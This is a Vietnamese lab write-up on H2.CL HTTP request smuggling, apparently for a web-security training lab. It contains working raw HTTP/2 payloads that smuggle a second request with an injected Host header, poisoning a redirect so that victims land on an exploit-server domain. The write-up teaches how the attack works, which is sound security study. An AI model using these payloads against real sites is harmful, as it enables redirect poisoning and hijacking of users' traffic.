



# Lab: H2.CL request smuggling

## Detect

Payload kiểm tra ban đầu trả về lỗi `Both chunked encoding and content-length were specified`:

```http
POST / HTTP/1.1
Host: 0aff00f6043bc34780520363003d0014.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

Khi chuyển sang HTTP/2 và gửi nhiều request liên tiếp, response bắt đầu cho thấy front-end đang dùng giá trị `Host` để dựng lại redirect.



## Vì sao có thể khai thác

Đây là biến thể H2.CL: front-end nhận HTTP/2 nhưng back-end vẫn bị dẫn dắt sang một request HTTP/1.1 được smuggle. Nếu chèn được `Host: foo`, response sẽ trả về `Location: https://foo/resources/`.

## Exploit

Payload dùng để poison redirect:

```http
POST / HTTP/2
Host: 0aff00f6043bc34780520363003d0014.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources HTTP/1.1
Host: foo
Content-Length: 5

x=
```

Kết quả trả về:

```http
HTTP/2 302 Found
Location: https://foo/resources/
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```



Sau khi chuẩn bị exploit server, đổi `Host` sang domain của exploit server để nạn nhân bị redirect sang đó thay vì `/resources/`.

```http
POST / HTTP/2
Host: 0aff00f6043bc34780520363003d0014.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0acb0089043ac31c80d302dd01c20045.exploit-server.net
Content-Length: 5

x=
```

